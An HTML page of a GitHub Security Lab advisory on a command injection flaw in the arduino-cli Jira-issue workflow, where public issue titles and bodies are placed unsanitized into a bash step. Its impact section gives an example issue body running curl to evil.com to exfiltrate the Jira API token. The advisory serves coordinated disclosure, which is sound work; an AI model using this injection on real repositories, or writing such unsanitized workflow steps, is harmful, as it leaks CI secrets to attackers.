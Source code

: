 <header class="post-header d-block mb-6">
      <div class="date text-mono f5 my-3">February 3, 2021</div>
      <h1 class="my-2 h00-mktg lh-condensed">GHSL-2020-171: Command injection in arduino/arduino-cli workflow</h1>

      
      
      
      
      

      

      <a target="_blank" class="sc-frDJqD SgxRc d-inline-flex flex-row flex-items-center text-gray" href="https://github.com/jarlob">
        <img class="mr-3" src="https://avatars.githubusercontent.com/u/26652396?s=35" height="35" width="35">
        <span>Jaroslav Lobacevski</span>
      </a>
    </header>

    <main id="content" class="markdown-body" aria-label="Content">
      <h2 id="coordinated-disclosure-timeline">Coordinated Disclosure Timeline</h2>

<ul>
  <li>10/14/2020: Report sent to vendor</li>
  <li>10/15/2020: Vendor acknowledges report receipt</li>
  <li>10/16/2020: Issue fixed</li>
</ul>

<h2 id="summary">Summary</h2>

<p>The <a href="https://github.com/arduino/arduino-cli/blob/master/.github/workflows/jira-issue.yaml">‘Jira-issue’ GitHub workflow</a> is vulnerable to arbitrary command injection.</p>

<h2 id="product">Product</h2>

<p><a href="https://github.com/arduino/arduino-cli">Arduino-Cli GitHub repository</a></p>

<h2 id="tested-version">Tested Version</h2>

<p><a href="https://github.com/arduino/arduino-cli/blob/master/.github/workflows/jira-issue.yaml">Jira-issue.yaml</a> from the Master branch.</p>

<h2 id="details">Details</h2>

<h3 id="issue-the-title-and-body-of-a-public-github-issue-are-used-to-format-a-shell-command">Issue: The title and body of a public GitHub issue are used to format a shell command</h3>

<p>When a user creates a public issue it automatically starts the <a href="https://github.com/arduino/arduino-cli/blob/master/.github/workflows/jira-issue.yaml">Jira-issue.yaml</a> GitHub workflow. The title and body of the issue are used without sanitization to format a bash script that invokes Jira.</p>

<div class="language-bash highlighter-rouge"><div class="highlight"><pre class="highlight"><code>      - name: Create issue
        run: |
          jira create <span class="se">\</span>
          <span class="nt">--noedit</span> <span class="se">\</span>
          <span class="nt">-p</span> <span class="k">${</span><span class="p">{ secrets.JIRA_PROJECT_CODE </span><span class="k">}</span><span class="o">}</span> <span class="se">\</span>
          <span class="nt">-i</span> Task <span class="se">\</span>
          <span class="nt">-o</span> <span class="nv">summary</span><span class="o">=</span><span class="s2">"</span><span class="k">${</span><span class="p">{ github.event.issue.title </span><span class="k">}</span><span class="s2">}"</span> <span class="se">\</span>
          <span class="nt">-o</span> <span class="nv">description</span><span class="o">=</span><span class="s2">"</span><span class="k">${</span><span class="p">{ github.event.issue.body </span><span class="k">}</span><span class="s2">}
          </span><span class="k">${</span><span class="p">{ github.event.issue.html_url </span><span class="k">}</span><span class="s2">}"</span> <span class="se">\</span>
          <span class="o">&gt;&gt;</span> output
</code></pre></div></div>

<h4 id="impact">Impact</h4>

<p>This vulnerability allows for arbitrary command injection into the bash script. For example a user may create an issue with the title <code class="language-plaintext highlighter-rouge">It doesn't work on my machine</code> and body <code class="language-plaintext highlighter-rouge">`curl http://evil.com?$JIRA_API_TOKEN`</code> which will exfiltrate the secret Jira API token to the attacker controlled server. To make the attack less visible an attacker may modify the body of the issue to <code class="language-plaintext highlighter-rouge">Never mind my bad.</code> and close it.</p>

<h2 id="credit">Credit</h2>

<p>This issue was discovered and reported by GHSL team member <a href="https://github.com/JarLob">@JarLob (Jaroslav Lobačevski)</a>.</p>

<h2 id="contact">Contact</h2>

<p>You can contact the GHSL team at <code class="language-plaintext highlighter-rouge">securitylab@github.com</code>, please include a reference to <code class="language-plaintext highlighter-rouge">GHSL-2020-171</code> in any communication regarding this issue.</p>
